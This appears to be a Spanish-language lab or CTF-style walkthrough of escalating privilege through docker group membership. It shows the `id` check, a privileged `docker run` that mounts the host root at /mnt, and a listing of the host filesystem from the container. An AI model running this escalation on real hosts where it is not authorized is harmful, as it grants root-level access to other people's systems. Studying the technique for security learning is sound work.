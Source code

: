 
## Paso a paso: Montar la raíz del host dentro de un contenedor

### Acción:

Verificamos si pertenecemos al grupo `docker`:

```bash
id
```

### Resultado:

```bash
uid=1001(gramscixi) gid=1001(gramscixi) groups=1001(gramscixi),998(docker)
```

---

### Explicación:

El grupo `docker` nos permite lanzar contenedores con control total sobre sus parámetros. Aprovecharemos esto para **montar el sistema de archivos `/` del host en el contenedor**.

---

### Acción:

Ejecutamos un contenedor interactivo y le montamos `/` del host en `/mnt` del contenedor:

```bash
docker run -it --rm \
  -v /:/mnt \
  --privileged \
  ubuntu /bin/bash
```

---

### Explicación:

- `-v /:/mnt`: monta la raíz del host en `/mnt` del contenedor.
    
- `--privileged`: da privilegios elevados al contenedor (por ejemplo, acceso a `/dev`, `CAP_SYS_ADMIN`, etc.).
    
- `ubuntu`: usamos una imagen simple y confiable.
    

---

### Resultado:

Dentro del contenedor tenemos acceso al sistema de archivos del host:

```bash
root@container:/# ls /mnt
bin  boot  dev  etc  home  lib  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```
